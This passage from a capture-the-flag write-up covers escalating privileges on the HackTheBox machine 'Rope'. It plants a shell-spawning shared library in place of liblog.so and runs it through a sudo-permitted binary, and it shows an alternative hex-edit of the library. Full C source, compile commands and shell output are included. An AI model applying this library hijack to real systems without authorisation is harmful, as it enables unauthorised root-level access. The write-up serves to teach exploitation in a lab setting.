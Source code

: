 
### Path 1: Create an so

I’ll create a simple c program and upload it to Rope:

    
    
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    void printlog() {
        execve("/bin/sh", NULL, NULL);
    }
    

This code has the `printlog` function, and it just runs a shell. I’ll compile
it into a shared library, and despite some warnings, it makes a shared object
file:

    
    
    john@rope:/dev/shm$ gcc -shared -o liblog-evil.so -fPIC liblog-evil.c
    liblog-evil.c: In function ‘printlog’:
    liblog-evil.c:6:5: warning: null argument where non-null required (argument 2) [-Wnonnull]
         execve("/bin/sh", NULL, NULL);
         ^~~~~~
    john@rope:/dev/shm$ file liblog-evil.so             
    liblog-evil.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=744ac31a55faeae58bd3661f32f48436fecbad2f, not stripped
    

Now I’ll copy it into place of the library, and run `readlogs`:

    
    
    john@rope:/dev/shm$ cp liblog-evil.so /lib/x86_64-linux-gnu/liblog.so
    john@rope:/dev/shm$ sudo -u r4j /usr/bin/readlogs
    $ id
    uid=1000(r4j) gid=1000(r4j) groups=1000(r4j),4(adm)
    

### Path 2: Edit liblog.so

Alternatively, I can pull back `liblog.so` and take a look at `printlog` in
IDA:?

![1567246044909](https://0xdfimages.gitlab.io/img/1567246044909.png)

It is just calling `system` on a static string. I can open a copy of the
library up in a hex editor (I’m using `bless`), scroll down until I see the
string, and modify it to `/bin/sh\x00`:

[![hex editing](https://0xdfimages.gitlab.io/img/1567246167348.png)_Click for
full size image_](https://0xdfimages.gitlab.io/img/1567246167348.png)

I can upload that to Rope, copy it into place, and run `sudo readlogs` to get
a shell as r4j.

## Shell as root
